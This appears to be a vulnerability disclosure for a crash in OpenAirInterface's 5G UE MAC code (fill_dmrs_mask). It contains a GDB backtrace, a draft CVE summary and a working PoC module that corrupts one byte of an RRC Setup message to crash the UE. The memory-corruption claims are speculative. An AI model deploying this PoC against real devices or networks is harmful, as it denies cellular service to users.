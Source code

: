 # mac_sch_16__BWP_Downlink_bwp_Common_reencoded_63_report
**Vulnerability Soucce Code**
https://gitlab.eurecom.fr/oai/openairinterface5g/-/blob/0afa3f3193f77ce718148ca48cbf18b321d1cf23/openair2/LAYER2/NR_MAC_COMMON/nr_mac_common.c#L3722

```
AssertFatal(l_prime>=0,"ERROR in configuration.Check Time Domain allocation of this Grant. l_prime < 1. row:%d, column:%d\n", row, column);
```

**Crash Context**  

In the 5G connection, the base station (sender) communicates with the user equipment (receiver), where the crash occurred on the user equipment. This crash took place during the RRC connection setup phase after the base station sent a tampered data packet. The backtrace reveals a `SIGABRT` error signal in the UEthread, with the primary function implicated being `fill_dmrs_mask` in the nr_mac_common.c file at line 3722

**1. Cause of Crash**
   - The function `fill_dmrs_mask` receives parameters such as `pdsch_Config`, `dmrs_TypeA_Position`, `NrOfSymbols`, `startSymbol`, `mappingtype`, and `length`. These parameters directly influence the configuration of the `DMRS` (Demodulation Reference Signal) mask, a critical component in handling downlink data. A malformed packet or invalid parameter values can lead to unexpected behavior in `fill_dmrs_mask`, potentially due to:
     - Out-of-range values or type mismatches.
     - Null or uninitialized pointers (e.g., `pdsch_Config`).
     - Unexpected values that violate assumptions in `nr_ue_process_dci` and related functions, triggering a `SIGABRT`.

**2. Vulnerability Potential**
   - **Memory Corruption**: The `fill_dmrs_mask` function could be susceptible to memory corruption if it does not handle out-of-bounds values properly. 
   - **Denial of Service (DoS)**: An attacker who can send malformed or unexpected data in RRC messages may repeatedly trigger this crash, causing the UE to repeatedly abort, thus leading to a Denial of Service (DoS).

**3. Exploitation Scenarios**
   - **Remote Trigger**: By crafting an RRC message with specific, malformed configurations (e.g., manipulating `NrOfSymbols`, `startSymbol`), an attacker could potentially cause memory corruption or crashes in UEs connected to a compromised gNB.
   - **Persistent UE Crash Loop**: If the vulnerability is exploited in an environment where the UE continually attempts reconnections, a persistent crash loop could occur, effectively rendering the UE unusable.

**Summary for CVE Submission**
The vulnerability appears to be triggered by malformed parameters in RRC messages, resulting in an unhandled exception in `fill_dmrs_mask`. This may be exploited to cause denial of service by repeated crashes or, potentially, memory corruption if further validation gaps are discovered. Additional research is needed to confirm exploitation potential, but this crash highlights a flaw in handling tampered packet inputs in RRC setup, affecting the UE’s stability and security.

**GDB Debug Information**
```console
Thread 13 "UEthread" received signal SIGABRT, Aborted.
[Switching to Thread 0x7a2574e00700 (LWP 42174)]
__GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:51
51	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:51
#1  0x00007a25857837f1 in __GI_abort () at abort.c:79
#2  0x00005e2e7c80fea0 in fill_dmrs_mask (pdsch_Config=0x1, dmrs_TypeA_Position=<optimized out>, NrOfSymbols=1, startSymbol=1, mappingtype=<optimized out>, length=1) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_COMMON/nr_mac_common.c:3722
#3  0x00005e2e7c927c83 in nr_ue_process_dci (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=<optimized out>, slot=<optimized out>, dci=0x5e2e86471f20, dci_ind=0x7a2574d932b0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_UE/nr_ue_procedures.c:1308
#4  0x00005e2e7c92b360 in nr_ue_process_dci_indication_pdu (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=193, slot=14, dci=0x7a2574d932b0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/LAYER2/NR_MAC_UE/nr_ue_procedures.c:629
#5  0x00005e2e7c915cd8 in handle_dci (module_id=<optimized out>, cc_id=<optimized out>, gNB_index=<optimized out>, frame=<optimized out>, slot=<optimized out>, dci=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/NR_UE_PHY_INTERFACE/NR_IF_Module.c:1068
#6  0x00005e2e7c9161e2 in nr_ue_dl_indication (dl_info=0x7a2574d93230, ul_time_alignment=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair2/NR_UE_PHY_INTERFACE/NR_IF_Module.c:1168
#7  0x00005e2e7c830a1b in nr_ue_pdcch_procedures (ue=0x7a25879c9010, proc=<optimized out>, pdcch_est_size=<optimized out>, pdcch_dl_ch_estimates=<optimized out>, phy_data=<optimized out>, n_ss=<optimized out>, rxdataF=0x7a2574de79e0) at /home/user/wdissector/3rd-party/oai_5g_sa/openair1/SCHED_NR_UE/phy_procedures_nr_ue.c:542
#8  0x00005e2e7c835d1d in phy_procedures_nrUE_RX (ue=0x7a25879c9010, proc=<optimized out>, phy_data=<optimized out>) at /home/user/wdissector/3rd-party/oai_5g_sa/openair1/SCHED_NR_UE/phy_procedures_nr_ue.c:1212
#9  0x00005e2e7c7ff128 in UE_processing (rxtxD=0x7a2574dff8b0) at /home/user/wdissector/3rd-party/oai_5g_sa/executables/nr-ue.c:622
#10 0x00005e2e7c800441 in UE_thread (arg=0x7a25879c9010) at /home/user/wdissector/3rd-party/oai_5g_sa/executables/nr-ue.c:911
#11 0x00007a258730e6db in start_thread (arg=0x7a2574e00700) at pthread_create.c:463
#12 0x00007a258586461f in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
(gdb) 

```

**Malformed Packet Send From the Base Station**
![Malformed Packet](https://github.com/qiqingh/OAI_Code_Analysis/blob/main/mac_sch_16__BWP_Downlink_bwp_Common_reencoded_63/pcap.png)


**PoC Code**
The following PoC code generates a falsified packet sent from the Base Station (sender) to the User Equipment (receiver). Due to a vulnerability in the User Equipment, this packet causes the device to crash, resulting in a Denial of Service (DoS).

To compile and run this PoC code, you'll need the environment described here: https://github.com/asset-group/5ghoul-5g-nr-attacks?tab=readme-ov-file#4--create-your-own-5g-exploits-test-cases

```cpp
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

// Vars

const char *module_name()
{
    return "Mediatek";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;

    // Declare filters
    f1 = wd_filter("nr-rrc.rrcSetup_element");

    return 0;
}

// TX
int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    // Register filters
    wd_register_filter(ctx->wd, f1);

    return 0;
}

int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    if (wd_read_filter(ctx->wd, f1)) {
        wd_log_y("Malformed rrc setup sent!");
        pkt_buf[146 - 48] = 0x80;
        return 1;
    }

    return 0;
}

```
logo
